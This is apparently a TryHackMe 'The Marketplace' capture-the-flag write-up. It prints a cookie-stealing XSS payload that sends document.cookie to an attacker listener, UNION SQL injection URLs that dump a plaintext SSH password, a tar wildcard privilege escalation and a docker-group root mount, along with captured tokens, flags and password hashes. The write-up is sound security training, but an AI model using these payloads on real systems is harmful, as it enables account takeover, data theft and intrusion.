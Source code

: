 # TryHackMe: The Marketplace

## Challenge Description

The sysadmin of The Marketplace, Michael, has given you access to an internal server of his, so you can pentest the marketplace platform he and his team has been working on. He said it still has a few bugs he and his team need to iron out.

Can you take advantage of this and will you be able to gain root access on his server?

## Planning and Scoping

**Target**: 10.10.159.164

## Information Gathering and Reconnaissance

Nmap was used to scan the target for open ports and services:

```bash
nmap -sC -sV 10.10.159.164
```

Results showed the following open ports and services:

- 22/tcp: OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
- 80/tcp: nginx 1.19.2
- 32768/tcp: Node.js (Express middleware)

## Threat Modeling

Identify potential risks and vulnerabilities in the web application's architecture.

## Vulnerability Assessment

Based on the information gathered during the reconnaissance phase, the following vulnerabilities were identified:

1. Cross-Site Scripting (XXS)
2. SQL Injection (SQLi)

## Exploitation

### Cross-Site Scripting (XXS)

An XXS payload was used to fetch cookies:

```javascript
<script>fetch('http://10.10.255.67:8080?asdf=' + document.cookie, {method: 'GET'})</script>
```

The XSS vulnerability was found when creating a new listing, specifically in the description field. The following CURL command was used to inject the XSS payload into the description:

```bash
curl 'http://10.10.255.67/new' -X POST -H 'Cookie: token=ourLoginCookie' -H --data-raw 'title=asdf&description=%3Cscript%3Efetch%28%27http%3A%2F%2F10.10.41.122%3A8080%3Fasdf%3D%27+%2B+document.cookie%2C+%7Bmethod%3A+%27GET%27%7D%29%3C%2Fscript%3E'
```

The listing was then reported to an admin, who would view the listing and trigger the XSS payload, sending their cookie to our listener:

```bash
curl 'http://10.10.255.67/report/3' -X POST -H 'Cookie: token=ourLoginCookie'
```

```bash
python -m http.server 8080

Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.255.67 - - [03/May/2023 23:46:34] "GET /?asdf=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2ODMxNTM5OTN9.IQIEQSbQuGhaEUALpITq4LlZLHVk6uNNyY9DJ4kAfIU HTTP/1.1" 200 -
```

We edit our cookie and we are now logged in as an administrator.

```
THM{c37a63895910e478f28669b048c348d5}
```

### SQL Injection (SQLi)

A series of SQL injection payloads were used to extract information from the database:

1. Enumerate table names
2. Enumerate column names for the 'users' table
3. Enumerate table types
4. Enumerate column names for the 'messages' table
5. Extract password from the 'messages' table
6. Extract username and ID from the 'users' table

```sql
http://10.10.255.67/admin?user=5 UNION SELECT user_to, GROUP_CONCAT(message_content SEPARATOR ', '), user_to, user_to FROM messages where id=1
```

The discovered SSH password for user 'jake' was: @b_ENXkGYUCAv3zJ. We can find the second flag.

```bash
jake@the-marketplace:~$ cat user.txt 
THM{c3648ee7af1369676e3e4b15da6dc0b4}
```

### Privilege Escalation

Privilege escalation was achieved using a vulnerability in the backup script:

```bash
jake@the-marketplace:~$ sudo -l
(michael) NOPASSWD: /opt/backups/backup.sh

jake@the-marketplace:~$ cat /opt/backups/backup.sh 
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```


```bash
cd /opt/backups
chmod 777 backup.tar
touch -- '--checkpoint=1'
touch -- '--checkpoint-action=exec=bash'
sudo -u michael /opt/backups/backup.sh
```

## Privilege Escalation: Docker Group Exploitation

During the assessment, it was discovered that the user 'michael' is a member of the 'docker' group. This allows the user to execute Docker commands, which can lead to privilege escalation.

The following steps were taken to exploit this vulnerability:

1. Create a temporary directory and navigate to it:

```
mkdir /tmp/test && cd /tmp/test
```

2. Create a Dockerfile with the following content:

```docker
FROM alpine
ENV WORKDIR /privesc
RUN mkdir -p $WORKDIR
VOLUME [ $WORKDIR ]
WORKDIR $WORKDIR
```

3. Save the Dockerfile and build a malicious Docker image:

```bash
docker build -t malicious-docker .
```

4. Run a Docker container using the malicious image and mount the root filesystem:

```bash
docker run -v /:/privesc -it malicious-docker /bin/sh
```

This step grants access to the host's root filesystem inside the Docker container, allowing for further exploration and exploitation of the system.

```bash
cat /root/root.txt
THM{d4f76179c80c0dcf46e0f8e43c9abd62}
```



## Recommendations

1. Implement input validation and output encoding to mitigate XXS vulnerabilities.
2. Use prepared statements and parameterized queries to mitigate SQL injection vulnerabilities.
3. Restrict access to sensitive directories and files.
4. Secure backup scripts to prevent privilege escalation.




## Commit
git add TryHackMe\ -\ Ice.md
git commit -m "Ice Looting"
git push -u origin master






Then SQLi
http://10.10.159.164/admin?user=5 UNION SELECT 2, GROUP_CONCAT(table_name SEPARATOR ', '), 2, 3 FROM information_schema.tables;

http://10.10.159.164/admin?user=5 UNION SELECT 2, GROUP_CONCAT(column_name SEPARATOR ', '), 2, 3 FROM information_schema.columns WHERE table_name = 'users';
User id, isAdministrator, password, username 

http://10.10.159.164/admin?user=5 UNION SELECT 2, GROUP_CONCAT(table_name SEPARATOR ', '), table_type, 3 FROM information_schema.tables where table_type = 'BASE TABLE'
items, messages, users 

http://10.10.159.164/admin?user=5 UNION SELECT 2, GROUP_CONCAT(column_name SEPARATOR ', '), 2, 3 FROM information_schema.columns where table_name = 'messages'
id, is_read, message_content, user_from, user_to 

http://10.10.159.164/admin?user=5 UNION SELECT user_to, GROUP_CONCAT(message_content SEPARATOR ', '), user_to, user_to FROM messages where id=1
User 3
User Hello! An automated system has detected your SSH password is too weak and needs to be changed. You have been generated a new temporary password. Your new password is: @b_ENXkGYUCAv3zJ

http://10.10.159.164/admin?user=5 UNION SELECT id, GROUP_CONCAT(username%20 SEPARATOR ', '), id, 3 FROM users where id=3
User 3
User jake
ID: 3 


chmod 777 backup.tar
touch -- '--checkpoint=1'
touch -- '--checkpoint-action=exec=bash'
sudo -u michael /opt/backups/backup.sh


By having docker

docker exec 3c6f21da8043 cat Dockerfile
docker exec -it 3c6f21da8043 /bin/bash






# Post-Exploitation

#Reporting and Remediation


Removing michael from the docker group with


system:$2b$10$83pRYaR/d4ZWJVEex.lxu.Xs1a/TNDBWIUmB4z.R0DT0MSGIGzsgW
michael:$2b$10$yaYKN53QQ6ZvPzHGAlmqiOwGt8DXLAO5u2844yUlvu2EXwQDGf/1q
jake:$2b$10$/DkSlJB4L85SCNhS.IxcfeNpEBn.VkyLvQ2Tk9p2SDsiVcCRb4ukG
asdf:$2b$10$6NkeqOPRTlJaiGtZ16asnOL4tKH1evTWJHP6VPVwhPOZGxFgge1UO